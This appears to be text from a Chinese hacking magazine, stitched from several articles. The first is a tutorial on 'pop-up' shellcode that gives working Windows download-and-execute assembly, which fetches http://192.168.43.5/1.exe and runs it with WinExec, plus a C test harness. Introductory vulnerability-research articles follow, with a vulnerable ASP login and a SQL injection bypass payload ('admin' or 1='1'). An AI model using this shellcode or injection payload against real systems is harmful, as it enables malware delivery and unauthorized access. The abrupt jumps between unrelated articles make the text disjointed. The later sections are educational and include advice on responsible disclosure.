Pop-up shellcode 的思路则是：所有需要压栈的字符串，根本没必要放在 shellcode 里。由于它们本身是符合编码要求的，我们可以把这些字符串作为覆盖数据的一部分写入堆栈，然后在 shellcode 里写一个短小的子程序，将其搜索并取出。

这个思路有点类似以前的“Shellcode 内存搜索法”，同样是把要用的东西藏在内存里，用特定标识标记出来，然后在 shellcode 中用一小段代码搜索之。但不同的是，这次要搜索的不是 shellcode 本身，而是 shellcode 中用到的字符串。

也许你要问，这种方法比起内存搜索法好在哪里呢？要知道可用的缓冲区内并非总能放下你的 shellcode，但几乎肯定能放下几十字节的字符串。

参数整块的 Shellcode 放进去后难以保证不被程序的读写操作破坏，但零散的一些参数可以见缝插针。这是一种通法，不仅可以用于数字字母 Shellcode，常规 shellcode 也同样适用。而“内存搜索法”只是少数时候才可用的技巧。

首先，我们要把用到的参数加上搜索标记，放入堆栈。格式为：

```text
/* 参数 / 4字节内存搜索标志 / 1字节表示长度 */
```

这里的内存搜索标志为 `"Seer"`。至于 1 字节的长度，考虑到可见字符问题，我们规定 “A”=1，“Z”=26，依此类推。

```text
LoadLibraryASeerL
WinExecSeerG
ExitProcessSeerK
URLMONSeerF
URLDownloadToFileASeerR
c:\1.exeSeerH
http://192.168.43.5/1.exeSeerY
```

以上就是一个完整的下载执行 Shellcode 用到的所有字符串。溢出时我们把这些东西和覆盖数据一起塞进堆栈就行了。在测试时，我们可以把这些字符串赋给函数中声明的临时变量，这样也会被存储在堆栈里，效果是一样的。如图 7 所示。


## 图7

```c
char str[25][50] = {
  "LoadLibraryASeerL",
  "WinExecSeerG",
  "ExitProcessSeerK",
  "URLMONSeerF",
  "URLDownloadToFileASeerR",
  "c:\\1.exeSeerH",
  "http://192.168.43.5/1.exeSeerY"
};
```

以下是搜索子程序，30 字节左右，还有精简的余地。

```asm
popup:
  mov eax, esp
  ; eax为当前搜索地址，由esp开始，每次递增
  xor edx, edx    ; dl保存每个参数的长度
  xor ebx, ebx    ; ebx寄存0，每次清掉内存搜索标志，顺带给参数加上\0
  mov ecx, 0x72656553
  ; ecx存有内存搜索标志Seer
  dec ecx         ; 先加1再减1，防止搜到自己
searchstart:
  inc eax
  cmp [eax], ecx
  jnz searchstart   ; 一个循环，eax每次+1
  ; 我没找到内存搜索标记ecx
  mov [eax], ebx    ; 找到了，把内存搜索标记Seer换成4个00
  mov dl, byte ptr [eax+4]
  ; 取出代表长度的第5字节
  add eax, 64
  sub eax, edx
  retn
```

以下是 Shellcode 主体部分，注意当我们需要参数时，只要 call 一下就会自动从内存 pop-up 一个。

```asm
asm {
push ebp
sub esp, 0x70
; 重要：把esp抬上去，防止esp上面的参数被冲掉，并确保参数地址大于esp
mov ebp, esp
push ebp
mov eax, fs:[0x30]      ; PEB
mov eax, [eax+0x0c]     ; Ldr
mov esi, [eax+0x1c]     ; Flink
lodsd
mov edi, [eax+0x08]     ; kernel32.dll
mov eax, [edi+3Ch]      ; PE首部
mov edx, [edi+eax+78h]
add edx, edi            ; 导出表地址
mov ecx, [edx+18h]      ; 导出函数个数
mov ebx, [edx+20h]
add ebx, edi            ; 函数名地址
search:
dec ecx
mov esi, [ebx+ecx*4]
add esi, edi
; GetProcAddress
mov eax, 0x50746547
cmp [esi], eax
jne search
mov eax, 0x41636f72
cmp [esi+4], eax
jne search
mov ebx, [edx+24h]
add ebx, edi
mov cx, [ebx+ecx*2]
mov ebx, [edx+1Ch]
...
}
```

```asm
add ebx, edi            ; ebx = 函数地址的起始位置
mov eax, [ebx+ecx*4]
add eax, edi            ; 用索引值，算 GetProcAddress
mov [ebp+40h], eax

call popup              ; 弹出 LoadLibraryA 参数到 eax
push eax                ; 第一个参数 LoadLibraryA
push edi
call [ebp+40h]
mov [ebp+4h], eax       ; 存入 LoadLibraryA 地址

call popup              ; 第二个参数 WinExec
push eax
push edi
call [ebp+40h]          ; 执行 GetProcAddress
mov [ebp+8h], eax       ; 存入 WinExec 地址

call popup              ; 第三个参数 ExitProcess
push eax
push edi
call [ebp+40h]
mov [ebp-16h], eax      ; 存入 ExitProcess 地址

call popup
push eax                ; "URLMON"
call [ebp+4h]           ; LoadLibrary("URLMON")
mov edi, eax            ; edi = URLMON 库地址

call popup
push eax                ; "URLDownloadToFile"
push edi                ; URLMON.dll
call [ebp+40h]          ; GetProcAddress
mov [ebp+10h], eax      ; URLDownloadToFile 地址

call popup
mov [ebp+50h], eax      ; "c:\\1.exe"
call popup
mov [ebp+60h], eax      ; "http://..."

push 0
push 0
push [ebp+50h]
push [ebp+60h]
push 0
call [ebp+10h]          ; URLDownloadToFileA(...)

push 0
push [ebp+50h]
call [ebp+8h]           ; WinExec("c:\\1.exe")
push 0                  ; ExitProcess
```

```asm
call [ebp+16h]          ; 或后续调用 ExitProcess，直接 exit，防止异常
}
```

我们用 OllyDBG 调试一下，效果如图 8 所示，每 call 一次，eax 就自动指向下一个参数。

图 8

如果你要加上如主动防御一类的修改，也可以加上，完成之后就可以对这段 Shellcode 进行 Alpha-2 编码了。编码后可用以下程序测试。

```c
#include "stdio.h"
#include "string.h"
#include "windows.h"

char buffer[] = "...";   // 编码后的 alpha-2 shellcode

int main()
{
    char str[7][50] = {
        "LoadLibraryA...",
        "WinExec...",
        "ExitProcess...",
        "URLMON...",
        "URLDownloadToFileA...",
        "c:\\1.exe...",
        "http://192.168.43.5/1.exe..."
    };

    __asm {
        lea eax, buffer   ; 让 eax 指向解码头
        jmp eax
    }

    return 0;
}
```

经测试，这种方法可以把下载执行 Shellcode 缩短 40 字节左右，而且想必你已经看到，我们想调整其中的某个参数（比如下载 URL）是举手之劳。对于想写生成器的朋友来说，方便了不少。当然，如果说 pop-up Shellcode 有什么缺点的话，就是其他人可以轻易地从前面那些字符串读出你的意图。还有，这种 Shellcode 不能作为一个整体构造，必须要把两部分结合起来，实战时可能还要调试几次。我给出的也只是一个比较初步的想法实现，精简的余地还是很大的。

适合读者：漏洞爱好者

前置知识：无

## 黑客漏洞发掘技术内幕系列之：磨刀不误砍柴功

## ——边出发一边磨砺自我

文/图 爱无言

望着眼前这 5 个可爱的福娃，2008 年这一年有北京奥运会为她锦上添花，那么一直在学习安全技术的我们又有什么为自己增光喝彩呢？正像我曾经说的那样，作为《黑客防线》的读者是幸福的，正当我们徘徊在充满荆棘的技术路口时，《黑客防线》再一次点亮了漆黑的夜空，指明了等待我们去征服的下一座山峰。

或许你有过这样的感受，一直在跟着别人学习怎么使用一些公布出来的漏洞利用工具，一直在碰到这个利用工具怎么不好用的尴尬，为什么？其实你心里最清楚，因为这些公布出来的漏洞会被马上弥补，你用的工具只不过是一个过时的东西。怎么办？答案只有一个——你必须要在第一时间找到漏洞。找漏洞？谈何容易，高手尚且很难把握，况且很多找漏洞的方法都是高度保密的，菜鸟的我怎么才能学会这种技术。犹豫疑惑使你不得不停在那里，但是我想告诉你，Hacker 的精神是永不停止的探索，是不服输的本色，你要么被淘汰出这个圈子，要么就成为高手！

我相信作为《黑客防线》的读者是不会言败的，所以从本期开始，我将与大家一起向高手之路进发，揭开漏洞发掘技术的内幕，在第一时间发现属于自己的漏洞，真正甩开被人约束的缰绳，让黑客自由的心飞越新的技术之巅。

既然我们是要学习黑客漏洞发掘技术，少不了会将“漏洞”这个词语时刻挂在嘴上，那么究竟什么是漏洞呢？如何给它下一个定义呢？对于“漏洞”一词的定义，我查询了百度百科，它是这样描述的：漏洞是在硬件、软件、协议的具体实现或系统安全策略上存在的缺陷，从而可以使攻击者能够在未授权的情况下访问或破坏系统。具体举例来说，比如在 Intel Pentium 芯片中存在的逻辑错误，在 Sendmail 早期版本中的编程错误，在 NFS 协议中认证方式上的弱点，在 UNIX 系统管理员设置匿名 FTP 服务时配置不当的问题都可能被攻击者使用，威胁到系统的安全，因而这些都可以认为是系统中存在的安全漏洞。漏洞与具体系统环境之间的关系及其时间相关特性：漏洞会影响到很大范围的软件设备，包括操作系统本身及其支撑软件、网络客户和服务器软件、网络路由器和安全防火墙等。换而言之，在这些不同的软硬件设备中都可能存在不同的安全漏洞问题。在不同种类的软、硬件设备，同种设备的不同版本之间，由不同设备构成的不同系统之间，以及同种系统在不同的设置条件下，都会存在各自不同的安全漏洞问题。

漏洞问题是与时间紧密相关的。一个系统从发布的那一天起，随着用户的深入使用，系统中存在的漏洞会被不断暴露出来，这些早先被发现的漏洞也会不断被系统供应商发布的补丁软件修补，或在以后发布的新版本系统中得以纠正。而在新版系统纠正了旧版本中具有漏洞的同时，也会引入一些新的漏洞和错误。因而随着时间的推移，旧的漏洞会不断消失，新的漏洞不断出现。漏洞问题也会长期存在，因而脱离具体的时间和具体的系统环境来讨论漏洞问题是毫无意义的。只能针对目标系统的操作系统版本、其上运行的软件版本以及服务运行设置等实际环境来具体谈论其中可能存在的漏洞及其可行的解决办法。同时应该看到，对漏洞问题的研究必须要跟踪当前最新的计算机系统及其安全问题的最新发展动态。这一点如同对计算机病毒发展问题的研究相似。如果在工作中不能保持对新技术的跟踪，就没有谈论系统安全漏洞问题的发言权，即使是以前所作的工作也会逐渐失去价值。

## 安全漏洞的概念

漏洞问题与系统安全级别计算机系统之间的关系。目前计算机系统安全的分级标准一般都是依据“橘皮书”中的定义。橘皮书正式名称是“受信任计算机系统评量基准”（Trusted Computer System Evaluation Criteria）。橘皮书中对可信任系统的定义是这样的：一个由完整的硬件及软件所组成的系统，在不违反访问权限的情况下，它能同时服务于不限定个数的用户，并处理从一般机密到最高机密等不同范围的信息。橘皮书将一个计算机系统可接受的信任程度加以分级，凡符合某些安全条件、基准规则的系统即可归类为某种安全等级。它将计算机系统的安全性能由高而低划分为 A、B、C、D 四大等级。

- D 级——最低保护（Minimal Protection）：凡没有通过其他安全等级测试项目的系统即属于该级，如 DOS、Windows 98 个人计算机系统。
- C 级——自主访问控制（Discretionary Protection）：该等级的安全特点在于系统的客体（如文件、目录）可由该系统主体（如系统管理员、用户、应用程序）自主定义访问权。例如管理员可以决定系统中任意文件的权限。当前 UNIX、Linux、Windows NT 等操作系统都为此安全等级。
- B 级——强制访问控制（Mandatory Protection）：该等级的安全特点在于由系统强制对客体进行安全保护，在该级安全系统中，每个系统客体（如文件、目录等资源）及主体（如系统管理员、用户、应用程序）都有自己的安全标签（Security Label），系统依据用户的安全等级赋予其对各个对象的访问权限。
- A 级——可验证访问控制（Verified Protection）：其特点在于该等级的系统拥有正式的分析及数学式方法，可完全证明该系统的安全策略及安全规格的完整性与一致性。

可见，根据定义，系统的安全级别越高，理论上该系统也越安全。可以说，系统安全级别是一种理论上的安全保证机制，是指在正常情况下，在某个系统根据理论得以正确实现时，系统应该可以达到的安全程度。系统安全漏洞是指可以用来对系统安全造成危害，系统本身具有的或设置上存在的缺陷。总之，漏洞是系统在具体实现中的错误。比如在建立安全机制中规划考虑上的缺陷，操作系统和其他软件编程中的错误，以及在使用该系统提供的安全机制时人为的配置错误等。安全漏洞的出现，是因为人们在对安全机制理论的具体实现中发生了错误，是意外出现的非正常情况。而在一切由人类实现的系统中都会不同程度地存在实现和设置上的各种潜在错误。因而在所有系统中必定存在某些安全漏洞，无论这些漏洞是否已被发现，也无论该系统的理论安全级别如何。所以可以认为，在一定程度上，安全漏洞问题是独立于操作系统本身的理论安全级别而存在的，并不是说系统所属的安全级别越高，该系统中存在的安全漏洞就越少。我们可以这么理解：当系统中存在的某些漏洞被入侵者利用，使入侵者得以绕过系统中的一部分安全机制并获得对系统一定程度的访问权限后，在安全性较高的系统当中，入侵者如果希望进一步获得特权或对系统造成较大的破坏，必须要克服更大的障碍。

安全漏洞与系统攻击之间的关系。系统安全漏洞是在系统具体实现和具体使用中产生的错误，但并不是系统中存在的错误都是安全漏洞，只有能威胁到系统安全的错误才是漏洞。许多错误在通常情况下并不会对系统安全造成危害，只有被人在某些条件下故意使用时才会影响系统安全。漏洞虽然可能最初就存在于系统当中，但一个漏洞并不是自己出现的，必须要有人发现。在实际使用中，用户会发现系统中存在错误，而入侵者会有意利用其中的某些错误并使其成为威胁系统安全的工具，这时人们会认识到这个错误是一个系统安全漏洞。系统供应商会尽快发布针对这个漏洞的补丁程序，纠正这个错误。这就是系统安全漏洞从被发现到被纠正的一般过程。系统攻击者往往是安全漏洞的发现者和使用者，要对于一个系统进行攻击，如果不能发现和使用系统中存在的安全漏洞是不可能成功的。对于安全级别较高的系统尤其如此。系统安全漏洞与系统攻击活动之间有紧密的关系，因而不该脱离系统攻击活动来谈论安全漏洞问题。了解常见的系统攻击方法，对于有针对性地理解系统漏洞问题，以及找到相应的补救方法是十分必要的。

常见攻击方法与攻击过程的简单描述。系统攻击是指某人非法使用或破坏某一信息系统中的资源，以及非授权使系统丧失部分或全部服务功能的行为。通常可以把攻击活动大致分为远程攻击和内部攻击两种。现在随着互联网的进步，其中的远程攻击技术得到很大发展，威胁也越来越大，而其中涉及的系统漏洞以及相关的知识也较多，因此有重要的研究价值。百度的解释是漏洞的一个广义概念，它主要突出了漏洞对于系统或者软件的安全危害，如果漏洞被利用在恶意攻击者手里，它将是程序致命的杀手。

其实在安全领域，漏洞这个词语常常指那些可以被利用、拥有一定破坏性质的安全隐患。我们常常会听说有人把漏洞叫做 Bug，这是极端不准确的。“Bug”一词原始的意思是小飞虫，原因是第一代的计算机是由许多庞大且昂贵的真空管组成，并利用大量的电力来使真空管发光。可能正是由于计算机运行产生的光和热，引得一只小虫子钻进了一支真空管内，导致整个计算机无法工作。研究人员费了半天时间，总算发现原因所在，把这只小虫子从真空管中取出后，计算机又恢复正常。后来，Bug 这个名词就沿用下来，表示电脑系统或程序中隐藏的错误、缺陷、漏洞或问题。后来在程序开发领域也引入了这个词语，但是它主要指程序中出现的一些不良现象，例如 IE 在显示一些特殊的 CSS 脚本时，会出现字体显示与实际设置的字体不符。像这样的对一个程序来说不会引起安全问题的错误，我们才称之为 Bug。

在英文单词中，“Vulnerability”一词一般才被理解为漏洞的意思。因为它所指的就是程序的一种缺陷，而这种缺陷一旦被成功利用将会造成一定的破坏作用。还有一些英文单词是我们在学习漏洞发掘中常常会听见的，那就是“exploit”以及“POC”。先说前者，在国外的一些安全站点上，我们每天都会看见这个单词频繁地出现，“exploit”中文的意思就是漏洞利用程序。每一种漏洞都有其相应的漏洞利用程序，直接使用这些 exploit，任何人都可以达到攻击他人的目的。“POC”是 exploit 的雏形，也就是说 POC 程序是用来证明漏洞存在的一小段代码。很多漏洞因为其破坏性很大，或者说该漏洞的利用比较简单，漏洞发现者就会只使用一小段程序来直接证明漏洞的存在性，这些程序就是 POC，英文全称 Proof of Concept。

如果你经常登录那些公布 exploit 的安全网站，就会看到很多人都在请求网站管理员能公布一些叫做“0Day”的东西。你一定会疑问：不是有了 exploit 就可以直接拿来利用了吗？为什么还要什么“0Day”呢？难道说“0Day”比起 exploit 还要重要？你的猜测是完全正确的，exploit 一旦公布出来，那么全世界的安全爱好者都知道某某程序存在一个漏洞可以被利用，这个消息很快就会传到程序的开发商那里，开发商绝对不会允许这样的漏洞一直存在下去，于是连忙推出补丁将漏洞弥补掉。这个时候，你要是再使用那个 exploit 程序去试图攻击，一切就已为时过晚了。但是 0Day 却不是这样，“0Day”从它的名字上你就可以看出，0 代表着时间，那么 0Day 就是零天的意思，也就是最新的意思。对程序来说，这就意味着被发现的漏洞是最新的，是程序任何补丁也弥补不了的。有时 0Day 还特指这个漏洞的发现日期就是程序刚发布的时候，你可以想象这样的漏洞对程序会带来什么样的危害。现在，0Day 的意思被广义化，也用来特指这个被发现的漏洞是所有人都不知道的，也就是说未公布的漏洞。

安全漏洞不仅出现在软件中，也出现在 Web 程序中，甚至是硬件中。那么常见的安全漏洞有哪些呢？为此，我们建立一个表格将常见的漏洞名称以及危害程度、基本原因列在其中，方便大家查看学习（如表所示）。

……在以后的章节里向读者揭密这些方法，并且会更加详细地介绍各种漏洞的成因与表现，甚至还有漏洞的利用方式。

| 漏洞名称 | 危害程度 | 基本原因 |
|---|---|---|
| XSS（跨站脚本漏洞） | 中 | 可以向正常网页插入恶意脚本，诱使用户执行 |
| 注入漏洞 | 中—高 | 由于数据库操作语句中引入了外部数据而导致可直接获取数据库信息，甚至通过数据库控制主机 |
| 上传文件漏洞（以上传脚本木马） | 高 | NULL 字节干预或者程序过滤不严，使得任何人可上传到服务器上，从而进一步控制服务器 |
| 包含式漏洞 | 中—高 | 利用了脚本语言的包含式函数来获得执行脚本程序的目的 |
| 信息泄漏 | 中—高 | 利用程序错误或者其他方式获得程序或者主机的内部信息 |
| 溢出漏洞 | 中—高 | 通过过长数据覆盖程序控制寄存器，实现本地或者远程命令程序执行任意代码 |
| 拒绝服务漏洞 | 低—中 | 诱使程序出错，导致程序无法正常工作 |
| Bypass 漏洞 | 高 | 利用程序的不严密检查，从而绕过认证获得正常访问权限 |

漏洞是具有时间性的。一个程序从发布的那一天起，随着用户深入地使用，程序中存在的漏洞会被不断暴露出来，这些早先被发现的漏洞也会不断被程序开发者发布的补丁软件修补，或在以后发布的新版本系统中得以纠正。

上面的表格列出的都是些常见漏洞，正因为常见，所以才时刻出现在我们使用的各种程序中。

每一种漏洞之所以能被发现，都来自于安全专家们辛苦的研究。每一个漏洞刚开始的时候或许只是一个安全问题，后来经过很多安全领域的爱好者、研究者共同分析思考，才使之成为一个真正的漏洞。像缓冲区溢出漏洞，刚开始的时候，它只是一个会引发程序出错的问题，后来在某篇文章里提到可以将溢出后的地址覆盖成一个可控地址，从而令程序跳转执行代码。这篇带有里程碑性质的文章发布后，缓冲区溢出从一个安全问题转变成了一个安全漏洞，并且成为了世界影响最广的漏洞。

虽然现在我们已经可以借助前人的研究成果来定义各种漏洞，但是这些已知漏洞也并不是随随便便就能发现的，它需要你有一定基础，用大量时间去做研究。在发掘漏洞的这个领域里，针对某些特定性质的漏洞会有一些总结好的经验方法，这些方法可以使得我们能更快更好地掌握如何发掘漏洞。因此，我们将在以后的章节里向读者揭密这些方法……

而在新版本系统纠正了旧版本中具有漏洞的同时，也会引入一些新的漏洞和错误。甚至在有些时候，一些旧的漏洞因为找不到好的利用方式，往往被程序开发者不重视，更谈不上发布程序补丁。微软的 MS07-021 就是这样一个典型漏洞。这个漏洞的原因是在 Windows XP 及更早版本系统文件 WIN32K.SYS 中，函数 GdiProcessCallout 会通过 ObOpenObjectByPointer 以 SECTION_ALL_ACCESS 权限在新进程中为 gpHmgrSharedHandleSection 创建句柄……

这个句柄用于将共享中的只读部分映射到进程内存，但是没有关闭，因此应用程序可以滥用句柄将这部分重新映射为可写，然后篡改 WIN32K.SYS 将会使用的数据。由于问题处在内核中且难以利用，使得该漏洞公布出来之后长时间内只是被称为一个隐患，但是 2007 年一种新的利用方法出现，将这个漏洞完美地利用成功。至此这个存在了数年的漏洞终于在众人的智慧下再现光芒。漏洞的这种潜伏性，使得漏洞变得隐蔽，但是每一种漏洞最终都会被人发现、被人利用。

这说明并不是所有的漏洞都是一出现就属于非常危险的漏洞，应该对漏洞作一个科学等级划分，这个划分的标准就是“危害等级”。以缓冲区溢出漏洞为例，根据它的利用方式不同分为：远程直接溢出型、远程被动溢出型、本地触发型。其中，远程直接溢出型的危害最高，因为攻击者利用此类漏洞可以直接发起攻击，不需要取得远程目标程序允许。远程被动溢出型，这一类很多像是 IE 漏洞、ActiveX 溢出漏洞等等，需要被攻击者访问带有攻击性质的网页或者代码才能触发利用，需要一定条件，并且对于 ActiveX 型的溢出，远程主机还必须有这个出现问题的 ActiveX 控件才能被利用，所以危害程度为较大。而本地溢出型的漏洞，则视情况而定，如果是提升权限型的溢出漏洞则会将低权限的用户直接升级为系统最高权限用户，使得系统完全暴露于用户面前，这应当属于最危险的漏洞；而一般类似像 Word 程序溢出漏洞，则会被安装木马病毒，此类漏洞则划为危险漏洞。

总的来说，漏洞是一个既神秘又令人不安的东西，很多人把漏洞发现者都崇拜为顶级高手，想知道这些高人们是如何发现一个个令人惊奇的漏洞，自己是否又能发现漏洞呢？我们就将带领读者走进这个隐藏在幕后的世界，亲眼看一个漏洞是如何从茫茫代码中被找寻出来的。

## 漏洞出现的原因

### 1）历史原因

漏洞出现的原因是很复杂的，但是有一些漏洞却是由于历史造成的。在软件漏洞中，溢出漏洞的出现多半是由于软件开发者使用了那些已经广泛投入使用的库函数导致的。在常见的 C 语言库函数中，用来操作字符串拷贝的函数 strcpy 就是一个典型的例子，这个函数会将其第一个参数指向的字符串拷贝到第二个参数指向的空间，此时它不会自动检测这两个空间的大小，如果软件开发者在进行字符串操作时，不加上检测字符串长度的代码而直接使用 strcpy 函数进行字符串拷贝，此时就会容易出现较为严重的缓冲区溢出漏洞。诸如此类的函数，在传统的 C 语言库函数中有很多。

还有一种是由于历史原因导致的漏洞，这种漏洞主要出现在 Web 程序中。如果一个 Web 程序使用 PHP 语言开发，因为 PHP 其自身存在很多安全隐患，将会影响到使用 PHP 型的 Web 应用程序。在 PHP 语言中，函数 gdImageCreate 存在一个溢出漏洞，这个函数是 PHP 用来处理图像的函数，许多 PHP 程序都有允许用户上传图片的功能，这样一旦有人将一个修改过的图片进行上传，PHP 在利用 gdImageCreate 解析这个被修改后的图片时就会出现典型的溢出现象，如果这张图片中再捆绑进恶意的代码，那么攻击者就可以获得执行任意代码的权限，从而能通过 PHP 库函数本身的漏洞攻进服务器系统，但这却与使用 PHP 作开发的 Web 应用程序无关。

### 2）编写者的马虎

安全漏洞出现最大的原因应该就是编写者的马虎了。早些时候开发出的程序，由于在软件工程思想还不成熟的情况下设计开发，中间会或多或少地出现一些误差，程序的代码编写者不去注意这些，只会去进行代码编写工作，这样程序就会出现一些安全问题。还有些时候，代码的编写者对安全问题的意识不够，只管保证程序不出现大的错误，可以运行，可以满足用户需要就对程序进行打包工作了，这个时候，程序中隐藏的安全隐患就会直接暴露给用户，造成用户的巨大损失。当然，并不是所有的程序开发者都会如此大意，有些程序员会对那些比较容易出现问题的地方或者函数，人工进行修改以保证不出现漏洞，可是这些修改从表面上看是成功地避免了某种漏洞，但是却也引发了另外一种漏洞的出现。本系列教程的“逆向技术”一文中将会提到一种漏洞，这种漏洞存在的原因是，程序编写者为了避免出现缓冲区溢出漏洞，而采用循环递减的方法来开辟内存空间，但是这个循环递减的次数是可以被外部用户控制的，这样我们如果控制这个循环次数非常大，程序就会不断地开辟内存空间，这将会导致出现空间不够而使程序崩溃的拒绝服务漏洞。

在后面的“上传漏洞的发掘技术”一章中，我们将会看到 Web 程序的开发者，为了能够避免网站被上传某些会对网站服务器产生破坏作用的文件类型，而采取过滤文件后缀名的方法来阻止这些类型的文件上传，但是由于过滤类型不全面，导致我们可以利用别的类型文件上传到服务器上，从而来达到相同的目的。程序的编写者毕竟是人，既然是人，那么他们更有可能犯的错误是某些逻辑上的错误。我们看看下面这段代码：

```asp
name=trim(request("username"))
passwd=trim(request("password"))
Set rs = Server.CreateObject("ADODB.Recordset")
sql = "select * from admin where username1='"&name&"' and password1='"&passwd&"'"
rs.Open sql, conn, 1, 1
if rs.eof then
  response.write "对不起，请登录论坛"
  response.end
else
  response.write "欢迎登录论坛"
end if
```

这是一段 ASP 代码，其中 name 与 passwd 变量分别来自用户提交的用户名与密码，然后程序将这两个变量作为条件一起放入到 select 查询语句中，只有当数据库中存在相同的用户名，并且该用户密码也与用户输入的密码一致时，查询语句的结果才不为空，也就是查找到了相应的用户，此时程序显示“欢迎登录论坛”，只要用户名或者密码其中任何一个不正确，数据库查询结果就会为空，此时就会显示“对不起，请登录论坛”。初步看起来编写者的逻辑是非常正确的，可是我们注意，在数据库 select 语句中，where 后面是一个条件语句，条件语句的连接关系除了 and 关系以外还有 or 等等，而 or 的意思就是只要有一种条件正确就认为全部正确。如果我们现在只知道一个用户名，不知道该用户的密码，那么我们能否利用 or 关系来获得进入论坛的权限呢？现在修改我们提交的用户名为“admin' or 1='1'”，其中 admin 是一个我们已经知道论坛中肯定存在的用户名名称，密码随便填写，这个时候，select 语句就变成了：

“select * from admin where username1='admin' or 1='1' and password1='aaa'”。

我们发现 or 语句中“1='1'”是一个肯定为真的语句，那么其后的“password1='aaa'”就算是一个错误的语句，也会因为 or 的存在而为真，这样我们只要保证了前面查询 username1 的条件为真，此时数据库查询的结果就一定为真了，我们也就能成功登录论坛了。

其实这种逻辑错误导致的漏洞，就是我们后文中要详细发掘的注入漏洞的成因。可以看出来，逻辑错误引发的漏洞应该说是比较严重的，无论在 Web 程序中还是在应用软件中，编写者的逻辑如果不严谨就会导致使用这些程序的网站或者用户被人恶意攻击。所以说，代码编写者的马虎是安全漏洞出现最大的原因之一。

### 3）不够充分的安全测试

20 世纪 60 年代的时候，IBM 进行了一个项目，这个项目的主要目的是为 IBM 360 机制作一个操作系统，IBM 公司每年投资五千万美元在这个项目上，每年有 5000 人为这个项目工作，编写出了一百万行代码，可最后的结果是这个操作系统根本就不能使用。这是一次惨痛的教训，软件开发史上把这一次事件作为了软件危机的标志。后来痛定思痛的软件开发者们总结出了现在依旧在使用的软件工程理论。软件工程将一个软件的开发过程命名为软件的生命周期，具体分成了 6 个步骤：计划、需求分析、设计、程序编写、测试、运行与维护。在这里我们看到了一个名词“测试”。软件工程中的这个测试是指，检验开发工作的成果是否符合要求，它是保证软件质量的重要手段。软件的测试又分为单元测试，主要测试各模块工作；集成测试，主要是对已经测试过的模块组装起来进行测试；确认测试，按照开发要求，逐项进行有效测试，以确定开发的软件是否能正常运行，符合客户需求，可以交付使用。在这些测试中，测试人员往往会集中精力对软件的运行流程、各模块的连接进行重点测试，但是对于安全性的测试却只成为软件测试中的一个较小的分支。许多大型的软件，如数据库系统，在开发测试中，一般主要是针对压力测试以及效能测试，也就是说，只会注重测试数据库的稳定性以及面对大量数据库操作时的效率。可是软件如果仅仅凭借这些测试就发布给用户，这将会在程序中埋藏下诸多的安全隐患。无论是过去的软件测试人员，还是现在的软件测试人员都不太注重软件安全的测试，甚至是没有一套好的安全测试工具，这就更加会导致测试人员不去测试软件的安全性。

虽然说我们有时使用测试技术会发现一些软件中存在的安全隐患，但这与测试人员对软件安全的经验有着密不可分的关系。一个好的测试人员不但会发现软件基本测试中的问题，还会发现那些隐藏深处的安全问题。

大部分的软件，尤其是应用性软件的开发者，为了种种目的，一般很少会做软件测试，更谈不上安全测试。这样的例子举不胜举，更可惜的是对于 Web 应用程序来说，测试技术几乎就很少使用。也许是太偏向于软件的测试，Web 类的程序开发者只管将程序编写出来并且能运行就可以了，国内很多的论坛文章系统的开发者都是这样开发自己的程序，所以 Web 程序出现漏洞的机会非常大。而这些开发者不但不检查自己程序的错误，反而试图使用加密技术来隐藏自己的代码，防止被安全研究者研究，这无疑是掩耳盗铃，因为无论 Web 程序是不是加密的，都要让用户可以通过浏览器访问，这样我们就可以利用修改传递给 Web 程序的各种参数数据来测试程序是不是存在安全漏洞，这也就是常说的黑盒测试技术。

Web 程序的一些加密算法往往也是可以被破解的，例如 PHP 的加密方法 Zend。不够详尽的安全测试一定会导致这些程序出现意想不到的安全漏洞。

## 发现漏洞后的处理以及上报

世间没有十全十美的东西，所以一个程序有漏洞并不是一件稀奇的事情。很多时候，漏洞听起来之所以可怕，是因为漏洞会被可怕地利用。一开始，微软在面对来自民间安全研究者发现的 Windows 漏洞的时候，总是一边忙着打补丁一边会说这些民间安全研究者是“最可恶的”。一个漏洞被发现出来，尤其是操作系统这样关键的程序被发现漏洞，对于程序的开发者来说，他们不但要花费大量的时间金钱去做弥补，还要面对正常用户们不断的投诉抱怨，一旦做不好就会导致程序销量骤降，企业面临破产。

所以我们完全可以理解微软那时的态度，但是现在的微软早已经不是这样，因为它发现与其得罪这些来自民间的安全研究者，倒不如使其成为微软产品的免费安全测试员来保证自己产品的安全性，这样就不会有用户去做什么投诉了，也就免了措手不及的补丁。

发现漏洞是一门艺术，但是恶意地利用漏洞就是一种恐怖。当年微软 SQL Server 数据库的一个溢出漏洞被蠕虫利用，导致全世界的服务器主机四分之一几乎都被感染，损失异常惨重。后来，又是关于微软的 Windows 操作系统处理 ANI 光标存在一个溢出漏洞，导致大量微软用户被恶意安装木马程序、间谍程序，也使得利用该漏洞传播的病毒泛滥。除了这种软件层面的漏洞被恶意利用，Web 程序中也出现了利用漏洞造成服务商巨大损失的。国内 PHPWind 论坛程序被人发现漏洞，导致一夜之间几乎所有使用 PHPWind 的网站都被攻击，安装了脚本木马，甚至是网页木马，后来 PHPWind 的开发者还专门为此事出面道歉。

举不胜举的事例告诉我们，在我们发现一个漏洞后一定要谨慎对待。虽然互联网上有成千上万的安全网站在公布自己发现的漏洞，但是你一定不会知道这些漏洞中大部分的漏洞已经是在告知程序开发者之后，才被发现者公布出来的。

既然我们的目的是研究漏洞发掘技术，所以不提倡大家随意公布自己发掘出的漏洞。如果可能请务必在发现漏洞后能及时联系程序开发者，这样做有两个好处，一个是你也许会因此受到奖励，一个是你不会在后来成为程序开发者控告的对象。每一个程序都会有作者的联系方式或者有专门的官方网站，你可以将漏洞的细节以电子邮件发送给他们，例如微软负责安全方面的联系 E-mail 就是 secure@microsoft.com。

作为一个专业的漏洞发掘者，上报漏洞是一种责任，所以我将专门将此作为一节内容写进来，这里特别声明，凡是利用本系列教程中提到的技术作破坏目的的，作者以及《黑客防线》概不负责。

适合读者：漏洞爱好者

前置知识：无

# 黑客漏洞发掘技术内幕系列之二：搭建一个测试平台

文／爱无言

在上一篇文章里，我与大家一起学习了“漏洞”的基本概念，并且有了一个初步的理解。明白了我们要找什么之后，接下来的工作是不是就可以开始实际发掘了呢？我的回答是，稍等，你还需要一些助手。计算机安全漏洞涉及的方面之广是很难全面研究的，但是这中间最大的优势是某一领域的安全漏洞已经被人研究得足够多，甚至出现了专业的漏洞发掘工具。君子善假于物，如果我们还在利用纯粹的手工甚至是体力来做漏洞研究，恐怕效率会很低，不过这里不指那些专注于挑战自我的手工研究者，并且有一些漏洞还就必须使用手工才能发现。

